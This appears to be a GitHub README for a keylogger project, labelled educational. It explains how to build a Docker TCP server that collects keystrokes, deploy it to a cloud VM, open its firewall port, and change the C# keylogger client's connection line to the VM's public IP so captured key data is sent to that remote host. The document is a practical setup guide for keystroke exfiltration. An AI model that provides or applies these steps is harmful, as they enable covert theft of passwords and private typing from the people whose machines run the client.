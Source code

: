> [!WARNING]
> For educational purposes only!

---
# Key Logger

Here’s how to run the TCP server **locally** or inside a **Docker container** and deploy it to a cloud VM.

---

## Build and Test the Docker Image Locally

1. **Build the Server Project**:
   - Open a terminal in the server project directory and build the project:
     ```bash
     dotnet build
     ```

2. **Build the Docker Image**:
   - Create a Docker image:
     ```bash
     docker build -t keylogger-server .
     ```

3. **Run the Docker Container**:
   - Run the container and map the port `5000` from the container to the local machine:
     ```bash
     docker run -p 5000:5000 keylogger-server
     ```

4. **Test Locally**:
   - The server should now be running at `127.0.0.1:5000`.
   - Run the **keylogger client** and confirm it can connect to the server.

---

## Deploy to a Cloud VM

To deploy the server to a cloud-hosted VM:

1. **Provision a VM**:
   - Create a virtual machine using a cloud provider (AWS EC2, Azure VM, GCP Compute Engine).
   - Choose a VM image with **Docker installed** (e.g., Ubuntu with Docker pre-installed).

2. **Transfer the Docker Image**:
   - Log in to Docker Hub:
     ```bash
     docker login
     ```
   - Tag your image:
     ```bash
     docker tag keylogger-server <your-dockerhub-username>/keylogger-server:latest
     ```
   - Push the image:
     ```bash
     docker push <your-dockerhub-username>/keylogger-server:latest
     ```
   - On the VM, pull the image:
     ```bash
     docker pull <your-dockerhub-username>/keylogger-server:latest
     ```

3. **Run the Server Container on the VM**:
   - Start the server container and map port `5000`:
     ```bash
     docker run -p 5000:5000 keylogger-server
     ```

4. **Open the VM’s Firewall**:
   - Allow inbound traffic on **port 5000** in the cloud provider’s firewall settings so the client can connect.

5. **Find the External IP**:
   - Check the external (public) IP address of your VM.

---

## Update the Keylogger Client to Use the External IP

In the **keylogger client** project, replace `127.0.0.1` with the VM's external IP address:

```csharp
using TcpClient client = new TcpClient("123.456.78.90", 5000); // Replace with your VM's external IP
```

---

## Test the Entire Setup

1. Ensure the TCP server container is running on the cloud VM.
2. Run the keylogger client on your **local machine**.
3. Confirm the client connects to the server and sends the key data.
4. Check the server’s output (or the log file) on the VM.
